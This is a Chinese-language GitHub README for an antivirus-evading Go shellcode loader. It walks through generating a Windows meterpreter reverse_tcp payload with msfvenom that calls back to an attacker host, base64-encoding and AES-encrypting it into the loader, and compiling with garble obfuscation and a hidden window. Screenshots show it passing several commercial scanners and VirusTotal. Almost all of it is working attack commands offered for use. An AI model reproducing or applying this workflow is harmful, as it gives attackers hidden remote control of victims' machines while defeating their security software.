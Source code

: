 # go-shellcode-loader

GO免杀shellcode加载器

#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：-tiny                    删除额外信息

                          -literals               混淆文字

                        -seed=random   base64编码的随机种子 

  go：-w                        去掉调试信息，不能gdb调试了

       -s                         去掉符号表

       -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

       -race                    使数据允许竞争检测

编译后得到go-sc.exe

#### 检测图

**火绒**

![](https://secure2.wostatic.cn/static/scesU3bCQaeSVpCehTJS84/image.png)

**360杀毒**

![](https://secure2.wostatic.cn/static/psmiLExVYYV725LtsLD3TU/image.png)

**360卫士**

![](https://secure2.wostatic.cn/static/f7gKLhEe1ApdDQwyLBN1a6/image.png)

**DF**

![](https://secure2.wostatic.cn/static/kvuYuMrLSZqxz1gzRjVowT/image.png)

**virustotal**

![](https://secure2.wostatic.cn/static/q69psHHLVRfNxXf4oKBK2J/image.png)

**微步云杀箱**

![](https://secure2.wostatic.cn/static/i1UvjPfa3DE9q9ALwwmbvH/image.png)



**运行效果**
https://user-images.githubusercontent.com/22775890/172315032-7ab13fea-9900-4cec-903e-48c8f7d0f2b7.mp4




